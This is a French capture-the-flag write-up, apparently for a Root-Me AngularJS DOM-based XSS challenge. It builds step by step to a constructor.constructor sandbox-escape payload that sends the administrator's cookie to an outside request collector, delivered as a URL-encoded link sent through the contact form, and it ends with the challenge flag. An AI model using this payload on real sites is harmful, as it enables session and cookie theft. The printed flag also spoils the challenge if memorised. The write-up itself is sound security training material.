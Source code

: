 ## Challenges

### Web Client

### Challenge: XSS DOM Based - AngularJS

#### Problème

Ce défi consiste à trouver le flag existant dans les cookies de l’administrateur.

#### Première étape :

La première étape était d'identifier la vulnérabilité, qui était une XSS (cross-site scripting) dans Angular JS. Pour tester cette faille, on injecte de code Angular JS dans le champ nom du formulaire de Main.

#### Deuxième étape :

Dans cette étape, notre objectif était de récupérer le Cookie de l’administrateur du site. Pour cela, nous avons construit une XSS avec un payload de Cookie.

#### Troisième étape :

En se renseignant et en faisant quelques tests, nous pouvons voir que ce payload nous retourne bien le résultat 49 :

```JS
{{7*7}}
```

Après quelques recherches, on remarque un payload fonctionnant :

```JS
{{constructor.constructor("alert(1)")()}}
```

Il faudra cependant remplacer les simple quote ' par des doubles quotes " pour que le payload soit fonctionnel.

Ensuite nous pouvons constuire le payload final

```JS
document.location.href='https://requestb.in/xxxxx?cookie='+document.cookie
```

Dans la console :

```JS
constructor.constructor("document.location.href=`https://requestb.in/xxxxx?cookie=${document.cookie}`")()
```

Payload final :

```JS
{{constructor.constructor("document.location.href=`https://requestb.in/xxxxx?cookie=${document.cookie}`")()}}
```

la redirection s’effectue sans soucis maintenant dans la page contact nous pouvons envoyer notre payload encodé avec https://www.urlencoderorg/ et en envoyant l’URL dans le sujet contact afin que l’administrateur clique dessus et qu’on puisse récupérer le flag !

http://challenge01.root-me.org/web-client/ch35/index.php?name=%7B%7Bconstructor.constructor%28%22document.location.href%20%3D%20%60https%3A%2F%2Feonm7ebndig3cr2.m.pipedream.net%2F%3Fcookie%3D%24%7Bdocument.cookie%7D%60%22%29%28%29%7D%7D


Plus qu’à attendre quelques minutes, et nous obtenons le flag dans notre RequestBin!

**Explication :**

- `{{constructor.constructor("alert(1)")()}}` : La fonction `constructor` est une fonction existante en AngularJS qui existe dans tous les composants AngularJS. En utilisant `constructor.constructor`, on peut accéder à la fonction `Function` qui permet de créer une fonction. En utilisant `Function`, on peut exécuter du code JavaScript. Ici, on exécute `alert(1)`.
- `document.location.href='https://requestb.in/xxxxx?cookie='+document.cookie` : On redirige la page vers un site tiers avec le cookie de l'utilisateur. Cela permet de récupérer le cookie de l'utilisateur.
- On combine les deux pour exécuter du code JavaScript et rediriger la page vers un site tiers avec le cookie de l'utilisateur.

#### Solution
Le cookie pour validation est donc : `rootme{@NGu1@R_J$_1$_C001}`

